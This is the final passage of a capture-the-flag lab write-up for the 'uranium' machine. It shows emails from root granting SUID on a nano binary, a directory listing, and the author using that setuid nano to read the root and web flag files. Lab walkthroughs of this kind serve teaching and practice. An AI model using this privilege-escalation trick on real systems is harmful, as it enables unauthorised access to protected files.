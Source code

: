 ```bash
I give SUID to the nano file in your home folder to fix the attack on our  index.html. Keep the nano there, in case it happens again.

------MIME delimiter for sendEmail-992935.514616878--


From root@uranium.thm  Sat Aug 21 11:25:17 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
	by uranium (Postfix) with ESMTP id A476F401A5
	for <kral4@uranium.thm>; Sat, 21 Aug 2021 11:25:17 +0000 (UTC)
Message-ID: <35569.014816673-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Sat, 21 Aug 2021 11:25:17 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-939019.459839077"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-939019.459839077
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

I think our index page has been hacked again. You know how to fix it, I am giving authorization.

------MIME delimiter for sendEmail-939019.459839077--


kral4@uranium:/home/kral4$ ls -la
total 384
drwxr-x--- 3 kral4 kral4   4096 Aug 21 11:40 .
drwxr-xr-x 4 root  root    4096 Apr 23 08:50 ..
lrwxrwxrwx 1 root  root       9 Apr 25 11:12 .bash_history -> /dev/null
-rw-r--r-- 1 kral4 kral4    220 Apr  9 21:55 .bash_logout
-rw-r--r-- 1 kral4 kral4   3771 Apr  9 21:55 .bashrc
-rwxr-xr-x 1 kral4 kral4 109960 Apr  9 16:35 chat_with_hakanbey
-rw-r--r-- 1 kral4 kral4      5 Apr 23 14:03 .check
drwxrwxr-x 3 kral4 kral4   4096 Apr 10 00:21 .local
-rwsrwxrwx 1 root  root  245872 Aug 21 11:40 nano
-rw-r--r-- 1 kral4 kral4    807 Apr  9 21:55 .profile
-rw-rw-r-- 1 kral4 kral4     38 Apr 10 00:21 user_2.txt
You have new mail in /var/mail/kral4
```
Perfect! We have now the `SUID` in the `nano` binary, so we can read the remaining flags!

```bash
kral4@uranium:/home/kral4$ ./nano /root/root.txt
kral4@uranium:/home/kral4$ ./nano /var/www/html/web_flag.txt
```

And we "rooted" the machine!

That's all from my side, hope you find this helpful!